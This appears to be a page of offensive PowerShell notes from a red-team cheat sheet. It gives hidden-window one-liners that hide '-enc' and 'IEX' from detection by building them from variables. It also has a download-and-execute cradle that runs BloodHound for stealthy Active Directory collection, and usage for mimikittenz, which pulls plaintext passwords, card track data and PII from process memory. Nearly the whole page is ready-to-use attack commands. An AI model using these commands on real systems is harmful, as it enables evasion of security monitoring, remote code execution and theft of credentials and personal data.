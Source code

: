 #### EncodedCommand and IEX detection bypass

Author: Dave Kennedy
Source: https://www.trustedsec.com/blog/circumventing-encodedcommand-detection-powershell/

Avoid detection of -enc

```
    powershell -window hidden -C "set-variable -name "C" -value "-"; set-variable -name "s" -value "e"; set-variable -name "q" -value "c"; set-variable -name "P" -value ((get-variable C).value.toString()+(get-variable s).value.toString()+(get-variable q).value.toString()) ; powershell (get-variable P).value.toString() <b64encodedcommandhere>"
```

Avoid detection of IEX

```
    powershell -window hidden -C "set-variable -name "LB" -value "I"; set-variable -name "I" -value "E"; set-variable -name "V" -value "X"; set-variable -name "wP" -value ((get-variable LB).value.toString()+(get-variable I).value.toString()+(get-variable V).value.toString()) ; powershell (get-variable wP).value.toString() ('<YOURINVOKEEXPRESSIONSTUFFHERE>')"
```

#### Bloodhound

```
    iex((new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/PowerShell/BloodHound.ps1'));Invoke-Bloodhound -CSVFolder c:\temp -CSVPrefix <prefix>

    Invoke-BloodHound -DomainController <domain IP> -Domain <FQDN> -CSVFolder C:\users\public\libraries -CSVPrefix <prefix> -CollectionMethod Stealth
```

#### Mimikittenz

https://github.com/putterpanda/mimikittenz

mimikittenz is a post-exploitation powershell tool that utilizes the Windows function ReadProcessMemory() in order to extract plain-text passwords from various target processes.

mimikittenz can also easily extract other kinds of juicy info from target processes using regex patterns including but not limited to:

- TRACK2 (CreditCard) data from merchant/POS processes
- PII data
- Encryption Keys & All the other goodstuff

Execution

```
    Invoke-Mimikittenz
```

Customizations

```
    Custom regex - The syntax for adding custom regex is as follows:
    [mimikittenz.MemProcInspector]::AddRegex("<NameOfTarget>","<regex_here>")

    Custom target process - Just append your target proccess name into the array:
    [mimikittenz.MemProcInspector]::InspectManyProcs("iexplore","chrome","firefox")
```

